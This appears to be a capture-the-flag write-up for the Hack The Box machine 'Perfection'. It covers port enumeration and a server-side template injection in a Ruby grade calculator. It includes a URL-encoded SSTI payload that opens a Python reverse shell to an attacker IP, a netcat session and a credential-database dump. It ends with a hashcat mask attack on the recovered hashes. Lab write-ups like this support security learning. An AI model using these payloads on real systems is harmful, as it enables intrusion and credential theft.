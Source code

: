 ```yaml
---
title: HTB:Perfection
date: 2024-03-15
categories: [HTB]
tags: [HTB]     # TAG names should always be lowercase
---
```


# HTB: Perfection

![perfection](https://i.ibb.co/ftpjjzd/perfection.jpg)

# Enumeration

![nmap-scan](https://i.ibb.co/PF5YTgz/nmap-scan.jpg)

The initial Nmap scan reveals two open ports: SSH (22/tcp) and HTTP (80/tcp). SSH is running on Ubuntu Linux, while the web server is hosting a service titled "Weighted Grade Calculator" on nginx. 

![whatweb](https://i.ibb.co/ZhWc7kc/whatweb.jpg)

 Web server is running a combination of nginx and WEBrick with Ruby version 3.0.2
 
## WebApp

![web](https://i.ibb.co/pxQHQNj/web.jpg)

![calc](https://i.ibb.co/XXJnmDK/perfection-calc.jpg)

After figuring out Weight grade calc is Vulnerable to [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), I tried some SSTI payloads related to ruby, since the WebApp is built with Ruby.

```ruby
<%= 7*7 %> = 49
```
![ssti](https://i.ibb.co/xqV1FWP/ssti.jpg)

## Reverse shell
 Generate a encoded reverse shell with [revshell.com](https://revshells.com/) 
 
    category1=mrx%0A<%25%3d+`python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.24",4444))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("sh")'`+%25>&grade1=10&weight1=10&category2=b&grade2=20&weight2=20&category3=c&grade3=30&weight3=30&category4=d&grade4=20&weight4=20&category5=e&grade5=20&weight5=20
 
 ***%0A  - newline character***

![shell](https://i.ibb.co/S6s9x91/reverse-shell.jpg)

Send the payload & catch the shell with Netcat listener.

![nc](https://i.ibb.co/6PQCyHM/nc.jpg)

## User Flag

    kali@kali ~ [1]> sudo nc -nvlp 4444
    listening on [any] 4444 ...
    connect to [10.10.14.24] from (UNKNOWN) [10.10.11.253] 60468
    $ python3 -c 'import pty; pty.spawn("/bin/bash")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    susan@perfection:~/ruby_app$ ls
    ls
    main.rb  public  views
    susan@perfection:~/ruby_app$ cd
    cd
    susan@perfection:~$ ls
    ls
    linpeas.sh  Migration  ruby_app  user.txt
    susan@perfection:~$ cat user.txt
    cat user.txt
    7b05f65f1ea8adeced421f18ad692d28

## Root Flag

After further enumerations , found a hash for Susan .

    susan@perfection:~$ cd Migration
    cd Migration
    susan@perfection:~/Migration$ ls
    ls
    pupilpath_credentials.db
    susan@perfection:~/Migration$ strings pupilpath_credentials.db
    strings pupilpath_credentials.db
    SQLite format 3
    tableusersusers
    CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    name TEXT,
    password TEXT
    Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
    David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
    Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
    Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
    Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f


![mail](https://i.ibb.co/s2CMP1X/mail.jpg)

 Create ​a mask and crack the hash with hashcat to retrieve the root access password.

    hashcat -m 1400 hash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d

`sudo su`

